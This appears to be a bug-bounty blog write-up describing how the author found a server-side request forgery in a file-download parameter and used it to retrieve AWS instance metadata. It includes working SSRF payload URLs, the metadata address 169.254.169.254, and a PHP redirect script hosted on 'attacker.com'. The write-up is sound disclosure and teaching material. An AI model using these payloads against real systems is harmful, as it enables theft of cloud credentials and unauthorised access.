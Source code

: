 ```yaml
---
layout: post
title: AWS Metadata Disclosure via “Hardcoded Host” Download Function
excerpt: "Sometimes, when visiting a website, we find a link to download files from that site. The downloaded file can be a guide, tutorial, or another other document."
tags: [bug hunting, hacking, lfd, aws]
categories: [bug hunting]
comments: true
image:
  feature: 81591f7af4d3ec85cfb7c1d7856d9ec7-f.png
---
```


Sometimes, when visiting a website, we find a link to download files from that site. The downloaded file can be a guide, tutorial, or another other document.

When hunting private programs on Bugcrowd, I found a link to download PDF files with the following format:

```
https://redacted.com/download?file=/2019/08/file.pdf
```

When accessing the link, then the browser will download the file `file.pdf`. The first I think when finding such a URL, of course I wonder if there is a **Local File Download** bug on the link.

So to do the test, I tried to change the URL be like this:

```
https://redacted.com/download?file=index.php
```

But nothing happened :(

There are several possibilities that I can think when found the index.php file could not be downloaded. First, the download feature has been protected so that we cannot download files that are not permitted, or second, the download feature is directed to another host maybe as a CDN or something so that the index.php file does not exist.

For the second possibility, maybe this is the code used:

```php
$host = 'https://cdn.redacted.com';
$file = $_GET['file'];

$download_url = $host .'/'. $file;
```

In the code above, it appears that the `host` of the file to be downloaded has been hardcoded in the code, so that we can manipulate only the `file` parameter.

#### URL Redirection

To find out if our assumptions about the URL format are correct, the easiest way is to try to redirect to another domain by adding the @ symbol at the end of the `file` parameter value and followed by the domain.

Example:

```
https://redacted.com/download?file=/2019/08/file.pdf@www.google.com
```

And boom! The HTML code from _www.google.com_ was downloaded.

![www.google.com Source Code](/assets/81591f7af4d3ec85cfb7c1d7856d9ec7-1.png)

This means that through this vulnerability we can only download data that is outside the server, cannot access files that are on the target. Then what data can we possibly get?

#### AWS Metadata

Knowing that the server is on Amazon AWS, so I tried to extract AWS Metadata through the vulnerability.

AWS Metadata Exists at URL:

```
http://169.254.169.254/latest/meta-data/
```

Then the URL is modified like this:

```
https://redacted.com/download?file=/2019/08/file.pdf@169.254.169.254/latest/meta-data/
```

But nothing happened again :(

After some time, I realized that the possibility of a hardcode host using the `HTTPS` protocol, so when we try to redirect to the Metadata URL that is using the `HTTP` protocol, the redirect process doesn’t work.

For that, I use a little trick, by using a domain that uses `HTTPS` and then redirect again to the URL of the Metadata.

```
Server Target ---> HTTPS domain ---> URL Metadata
```

For that, I created a simple `PHP` file to redirect to Metadata:

```php
<?php

header('location: http://169.254.169.254/latest/meta-data/');
```

Then the file is uploaded to a domain that uses HTTPS. Then the final URL will be like this:

```
https://redacted.com/download?file=/2019/08/file.pdf@attacker.com/redirect.php
```

And the Metadata was downloaded !

![AWS Metadata](/assets/81591f7af4d3ec85cfb7c1d7856d9ec7-2.png)

For this finding, I got `P1` on Bugcrowd.

**References:**

- CWE-200 : Information Exposure
- https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html